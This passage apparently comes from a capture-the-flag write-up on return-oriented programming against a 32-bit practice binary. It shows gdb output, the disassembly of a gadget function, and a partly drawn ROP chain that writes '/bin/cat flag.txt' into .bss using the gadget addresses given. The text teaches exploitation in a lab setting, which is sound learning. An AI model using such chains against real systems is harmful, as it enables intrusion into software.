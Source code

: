 ```
0x080483c0  _init
0x08048400  printf@plt
0x08048410  fgets@plt
0x08048420  puts@plt
0x08048430  system@plt
0x08048440  __libc_start_main@plt
0x08048450  setvbuf@plt
0x08048460  memset@plt
0x08048480  _start
0x080484b0  __x86.get_pc_thunk.bx
0x080484c0  deregister_tm_clones
0x080484f0  register_tm_clones
0x08048530  __do_global_dtors_aux
0x08048550  frame_dummy
0x0804857b  main
0x080485f6  pwnme
0x0804864c  usefulFunction
0x08048670  usefulGadgets
0x08048680  __libc_csu_init
0x080486e0  __libc_csu_fini
0x080486e4  _fini
gdb-peda$
```
`usefulGadgets` sounds interesting, so I took a look at the disassembly of that function.
```
gdb-peda$ disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:	mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:	ret    
   0x08048673 <+3>:	xchg   ax,ax
   0x08048675 <+5>:	xchg   ax,ax
   0x08048677 <+7>:	xchg   ax,ax
   0x08048679 <+9>:	xchg   ax,ax
   0x0804867b <+11>:	xchg   ax,ax
   0x0804867d <+13>:	xchg   ax,ax
   0x0804867f <+15>:	nop
End of assembler dump.
gdb-peda$
```
`mov DWORD PTR [edi],ebp` looks interesting.
What this does is copy the value from `ebp` to the address that is referenced by `edi`.
I could work with that.

#   Thinking up a ropchain
Luckily there is a `pop edi; pop ebp; ret` gadget, which is at `0x080486da` as seen in the previous output from `ropper`.
In a 32bit executable, a register can only hold data up to 4 bytes, so I would have to perform multiple writes to fully write `/bin/cat flag.txt` into memory.

After some thinking I decided that it would be the best to try and perform this ropchain:
```
+-------------------------+
|  pop edi; pop ebp;ret   |
+-------------------------+
|      .bss address       | # 0x0804a040
+-------------------------+
|       0x6e69622f        | # "/bin"
+-------------------------+
| mov DWORD PTR [edi],ebp | # 0x08048670
+-------------------------+
|  pop edi; pop ebp;ret   | # 0x0804a040
+-------------------------+
|    .bss address + 0x4   | # 0x0804a044
```
